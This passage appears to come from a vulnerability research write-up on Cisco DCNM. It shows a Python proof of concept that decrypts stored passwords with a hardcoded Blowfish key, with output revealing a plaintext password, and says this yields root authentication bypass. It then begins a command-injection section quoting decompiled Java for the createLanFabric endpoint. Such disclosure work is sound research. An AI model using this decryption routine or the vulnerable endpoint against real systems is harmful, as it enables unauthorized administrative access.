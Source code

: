 <p markdown="1" class="cn">On line *[39]* the code encrypts these passwords using the `jaas is the way` key. Yes, Cisco, jaas is the way.</p>

```python
#!/usr/bin/python
import sys
from Crypto.Cipher import Blowfish
cipher = Blowfish.new("jaas is the way", Blowfish.MODE_ECB)
print cipher.decrypt(sys.argv[1].decode("hex"))
```

```bash
saturn:~ mr_me$ ./poc.py 59f44e08047be2d72f34371127b18a0b
Dcnmpass123
```

<p markdown="1" class="cn">With this, we can now login to the DCNM web interface as the root user with `network-admin` privileges, which is enough for a complete authentication bypass.</p>

<p markdown="1" class="cn">We can also login to the SSH server as root but we don't talk about that default misconfiguration and instead assume the SSH server is locked down. :-)</p>

<p markdown="1" class="cn">[ret2toc](#table-of-contents)</p>

### LanFabricImpl createLanFabric Command Injection Remote Code Execution Vulnerability

<p markdown="1" class="cn">Inside of the `com.cisco.dcbu.vinci.rest.services.LanFabrics` class we can find the `createLanFabric` rest method.</p>

```java
/*     */ @Path("/fabrics")
/*     */ public class LanFabrics
/*     */ {
/*  42 */   private final Logger log = LogManager.getLogger("fabrics");
/*     */   
/*     */   @POST
/*     */   @Consumes({"application/json"})
/*     */   @Produces({"application/json"})
/*     */   @Mapped
/*     */   public Response createLanFabric(@RequestBody LanFabricSetting fabric) {
/*  49 */     StatusCode res = StatusCode.ProcessingError;
/*  50 */     String errorHeading = "Creating LAN fabric fails. ";
/*  51 */     LanFabricSetting setting = null;
/*     */     try {
/*  53 */       LanFabricImpl impl = new LanFabricImpl();
/*  54 */       res = impl.createLanFabric(fabric);
/*  55 */       if (res == StatusCode.Success) {
/*     */         
/*  57 */         setting = new LanFabricSetting();
/*  58 */         setting.setName(fabric.getName());
/*     */       } 
/*  60 */     } catch (Exception e) {
/*  61 */       e.printStackTrace();
/*  62 */       errorHeading = errorHeading + " " + e.getMessage();
/*     */     } 
/*  64 */     return RestHelper.composeHttpResponse(res, setting, errorHeading, this.log);
/*     */   }
```
